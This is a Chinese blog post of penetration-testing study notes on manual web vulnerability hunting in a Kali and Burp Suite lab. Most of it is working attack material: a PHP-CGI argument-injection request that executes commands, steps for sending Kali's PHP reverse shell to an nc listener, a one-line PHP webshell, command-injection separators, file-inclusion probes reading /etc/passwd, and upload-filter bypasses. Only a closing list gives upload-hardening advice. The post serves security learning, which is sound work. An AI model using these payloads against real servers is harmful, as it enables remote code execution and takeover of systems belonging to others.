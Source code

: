```yaml
---
title: 手动漏洞挖掘（一）
date: 2018-01-27 15:20:44
categories: 安全
tags: 漏洞
---
```


手动挖掘原则
---
+ 所有变量
+ 所有头
cookie中的变量
+逐个变量删除

默认安装漏洞
---
* windows默认安装漏洞
+ phpMyAdmin/setup
+ Ubuntu/Debian 默认安装 PHP5-cgi
+ 可直接访问 /cgi-bin/php5 和 /cgi-bin/php
```
POST http://192.168.133.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.20.10

passthru('ls');
die();
?>
```
以上这段放在Burpsuite的`Repeater`重放攻击，修改主机地址和目标ip地址，就能实现攻击，在php代码里面修改命令就能看到该服务器权限下能执行的命令结果  

![](http://upload-images.jianshu.io/upload_images/5834506-ed170676275e5c2d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

php反弹shell
它在kali的位置
/usr/share/webshells/php/php-reverse-shell.php
修改一下，把IP换成本机的IP地址
然后将所有内容复制下来复制到在burpsuite的body中
![](http://upload-images.jianshu.io/upload_images/5834506-8aac7376c85d4382.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)  

如配置文件中侦听对应的端口`nc -nvvlp 1234`再发送请求，就能在终端看到信息了  


![](http://upload-images.jianshu.io/upload_images/5834506-47baca2fbab4883e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
接下来输入的系统指令只要有权限就能执行
命令行注入漏洞
---
如果网站有直接调用系统指令，如`ping`之类，可以用以下指令注入
```
; 分号，代表与指令分隔  例：ping 172.16.242.128;ls 执行完ping之后就执行ls
&& 双与，代表前面一个指令成功后，才能执行后面一个指令 例：ping 172.16.242.128&&ls 在ping指令成功后才会执行ls
& 单与，代表两条命令同时执行
|| 双或，代表当前面一个命令执行失败，才执行后面一个指令
```
目录权限限制不严/文件包含漏洞
---
针对运行php的服务器的远程文件包含漏洞，需要服务器的/etc/php5/cgi/php.ini中allow_url_include=On，然后重启apache服务器才有用  

一句话木马
`<?php echo shell_exec($_GET['cmd']); ?>`
特征但不绝对：
```
?page=a.php
?home=b.html
?file=content
```
经典测试方法：
```
?file=../../../../etc/passwd
?page=file:///etc/passwd
?home=main.cgi
?page=http://www.a.com/1.php
http://1.1.1.1/../../../../dir/file.txt
```
绕过字符过滤
```
. 点，有一些应用对图片判断是以.png结尾，来判断是不是一张图片的，这个时候只需要 a.php.png，就能绕过检查
%00 空，作为截断，有一些应用的文件检查是从头开始检查的，如果遇到%00,就表示结束，不会再继续，例如a.doc%00.php ，实际上是一个php文件，
但是应用的检查以为是doc文件
在请求中插入过滤 如果服务器过滤链接http://这串字符，这个时候只需要在这串字符中间再插入这串字符，如在h插入，变成hhttp://ttp://这样
服务器就会过滤掉中间的http://，并把过滤后的字符串拼接回去
```
kali攻击字典放在
`/usr/share/wfuzz/wordlist/vulns`
文件上传漏洞
---
```
将文件名后缀修改
截断代理，将content-type修改为允许的类型
```
怎么解决文件上传漏洞
```
限制上传目录的权限
修改上传后文件的命名
模糊上传文件目录的路径
```